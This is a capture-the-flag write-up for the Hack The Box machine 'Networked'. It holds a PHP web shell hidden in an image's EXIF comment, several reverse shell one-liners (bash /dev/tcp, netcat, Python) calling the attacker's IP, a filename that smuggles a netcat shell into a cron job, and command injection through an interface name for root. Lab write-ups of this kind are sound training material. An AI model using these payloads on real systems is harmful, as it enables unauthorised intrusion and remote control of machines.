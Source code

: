 # Networked HTB, IP 10.10.10.146

# Initial Enumeration

**1. nmap -sC -sV 10.10.10.146**

![n1](https://user-images.githubusercontent.com/15195048/93912551-c0f9cd80-fcb8-11ea-8190-ff6fb2d2f77f.png)

**2. Dirb/ Gobuster**

dirb http://10.10.10.146
dirb http://10.10.10.146 -X .php

![n2](https://user-images.githubusercontent.com/15195048/93912555-c1926400-fcb8-11ea-8d78-6e845abdae2d.png)

----------------------------------------------------------------------------------------------------------------------------
# Port Enumeration

## 1.Enumerating port 80

![n3](https://user-images.githubusercontent.com/15195048/93912557-c22afa80-fcb8-11ea-8ffd-57450756147c.png)


View page source: **Control+U**

![n4](https://user-images.githubusercontent.com/15195048/93912560-c22afa80-fcb8-11ea-9948-39fb8654bd19.png)

**Interesting Files**

http://10.10.10.146/upload.php

![n5](https://user-images.githubusercontent.com/15195048/93912562-c2c39100-fcb8-11ea-9a85-4ecce8d2b0b1.png)


Trying to upload a shell we see the error “Invalid image file”

http:10.10.10.146/backup


![n6](https://user-images.githubusercontent.com/15195048/93912563-c2c39100-fcb8-11ea-8c29-6fd246172a25.png)

Download the file **backup.tar**

![n7](https://user-images.githubusercontent.com/15195048/93912564-c2c39100-fcb8-11ea-89b3-c5362ba8366f.png)


![n8](https://user-images.githubusercontent.com/15195048/93912565-c35c2780-fcb8-11ea-9c6a-8655f622491b.png)


![n9](https://user-images.githubusercontent.com/15195048/93912566-c35c2780-fcb8-11ea-89ed-51178e94ab9e.png)


**Modifying bb.jpeg**

**exiftool -Comment='<?php echo** "<pre>"; system($_GET['cmd']); ?>'** bb.jpeg

**mv bb.jpeg bb.php.jpeg**

We successfully uploaded bb.php.jpeg photo.
view-source:http://10.10.10.146/uploads/10_10_14_21.php.jpeg?cmd=nc -e /bin/bash 10.10.14.21 8888

![n10](https://user-images.githubusercontent.com/15195048/93912571-c3f4be00-fcb8-11ea-906a-c4cb4c000e9e.png)


Try..
A)bash -i >& /dev/tcp/10.10.14.21/1234 0>&1
B) nc -e /bin/sh 10.10.14.21 1234  DONE
C) python -c 'import soc ket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.21",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);’


  After enumerating home directory of user guly we see that a php script is running as a cronjob which could be used to gain shell as that user. Lets look at code check_attack.php.  


![n11](https://user-images.githubusercontent.com/15195048/93912575-c3f4be00-fcb8-11ea-8d2f-c132c2b482c8.png)

![n12](https://user-images.githubusercontent.com/15195048/93912576-c48d5480-fcb8-11ea-8114-8676404dfb06.png)


**Notes:**
We see that it scans for files, If the files were found as malicious, then a cron job will check and report to guly with mail($to, $msg, $msg, $headers, "-F$value"); every three minutes, for files in /var/www/html/uploads that doesn’t begin with an IP address. We can touch a file with a file name that begins with ; to separate sendmail from the command that we want to execute.
   
**touch ';nc 10.10.12.161 4321 -c bash'**
   
 ![n13](https://user-images.githubusercontent.com/15195048/93912579-c525eb00-fcb8-11ea-8c04-57d78a66b2d9.png)
 
   
 ![n14](https://user-images.githubusercontent.com/15195048/93912580-c525eb00-fcb8-11ea-8d78-b6a230c2b66c.png)
 
   user.txt

-------------------------------------------------------------------------------------------------------------------------------------------------------------------
# Privilege Escalation
  
   sudo -l
   (root) NOPASSWD: /usr/local/sbin/changename.sh


   As guly I checked sudo -l and found that guly can run /usr/local/sbin/changename.sh as root without a password:
   
   
   ![n15](https://user-images.githubusercontent.com/15195048/93912582-c5be8180-fcb8-11ea-985d-e5273ce8f22d.png)

  This script simply creates a network script for an interface called guly then activates that interface. It asks the user for these options: NAME, PROXY_METHOD, BROWSER_ONLY, BOOTPROTO. We’re interested in the options because according to this page(https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f) we can inject commands in the interface name. Let’s try to execute bash:
  
   interface NAME:
   gu bash 
  
   or   
![n16](https://user-images.githubusercontent.com/15195048/93912583-c5be8180-fcb8-11ea-9273-c568c4345679.png)

root.txt
